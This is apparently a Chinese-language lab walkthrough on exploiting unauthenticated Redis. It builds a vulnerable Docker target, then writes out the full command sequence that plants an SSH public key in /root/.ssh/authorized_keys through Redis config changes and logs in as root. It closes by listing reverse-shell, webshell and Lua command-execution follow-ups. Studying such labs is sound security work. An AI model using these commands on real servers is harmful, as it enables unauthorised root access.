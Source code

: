 # redis 未授权访问

## 环境搭建

被攻击环境创建：  
创建虚拟机  
`docker run -tid -p 2222:22 -p 6379:6379 ubuntu`  
安装ssh，redis，vim
`apt-get update`  
`apt-get install openssh-server`  
`service ssh start`  
`mkdir /root/.ssh`  
`apt-get install redis`  
`apt-get install vim`  
修改如下配置，使redis可远程访问  
`vim /etc/redis/redis.conf`  
`# blnd 127.0.0.1`

以非保护模式启动redis  
`redis-server  --protected-mode no`  

注意：  
这里kali要设置成桥接，否则ssh连接出错。我的被攻击机也是桥接进网络中的docker虚拟机，和实际环境有关系  
连接的端口是 2222  

攻击机：kali  
`apt-get install  redis`  
生成ssh key  
`ssh-keygen -t rsa`  
进入.ssh目录。将生成的目录保存到 kitty.txt  
`cd .ssh`
`(echo -e "\n\n";cat id_rsa.pub; echo -e "\n\n") > kitty.txt`  
将kitty.txt写入redis(使用redis-cli -h IP命令连接主机A，将文件写入)  
`cat kitty.txt | redis-cli -h 192.168.3.35 -x set crack`  
远程登陆redis命令  
`redis-cli -h 192.168.3.35`  
获得当前备份路径的命令  
`config get dir`  
设置备份路径的命令  
`config set dir /root/.ssh`  
设置上传公钥的备份文件名字为 authorized_keys  
`192.168.3.35:6379> config set dbfilename authorized_keys`  
`OK`  
检查是否更改成功(查看有没有authorized_keys文件)，没有问题就保存然后退出，至此，我们成功地写入ssh公钥到靶机上

``` shell
192.168.3.35:6379> config get dbfilename
1) "dbfilename"
2) "authorized_keys"
192.168.3.35:6379> save
OK
192.168.3.35:6379> exit
```

ssh免密登陆  
`ssh -i id_rsa -p 2222 root@192.168.3.35`

后续  
在crontab里写定时任务，反弹shell  
在web目录下写入webshell  
利用redis执行命令：redis 2.6以前的版本内置了lua脚本环境，在有连接redis服务器的权限下，可以利用lua执行系统命令。

### 参考

https://www.cnblogs.com/ECJTUACM-873284962/p/9561993.html  
https://blog.csdn.net/guxiaoguo/article/details/78913245